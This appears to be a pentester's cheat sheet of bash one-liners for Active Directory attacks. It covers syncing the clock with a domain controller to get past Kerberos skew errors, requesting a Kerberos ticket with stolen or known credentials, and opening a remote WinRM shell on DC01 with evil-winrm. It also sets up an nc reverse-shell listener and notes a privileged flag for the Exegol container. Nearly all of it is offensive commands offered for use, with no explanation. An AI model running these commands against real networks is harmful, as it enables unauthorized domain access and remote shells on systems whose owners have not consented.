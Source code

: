 ## KRB_AP_ERR_SKEW(Clock skew too great)

```bash
faketime "$(rdate -n $DC_IP -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
```

## evil-winrm without NTLM
```bash
# 1 - Get TGT
getTGT.py -dc-ip "DC01.domain.tld" "domain.tld"/"$USER":"$PASSWORD" -k

# 2 - Edit /etc/krb5.conf, example :
[libdefaults]
        default_realm = DOMAIN.TLD
<SNIP>
[realms]
DOMAIN.TLD = {
    kdc = DC01.domain.tld
    kdc = DC01.domain.tld:88
}

# 3 - Get WinRM shell
KRB5CCNAME=TICKET.ccache evil-winrm -i DC01.domain.tld -r domain.tld
```

## revshell using rlwrap
```bash
rlwrap -cAr nc -lvnp 1337
```

## Mount share inside exegol
```bash
--privileged
```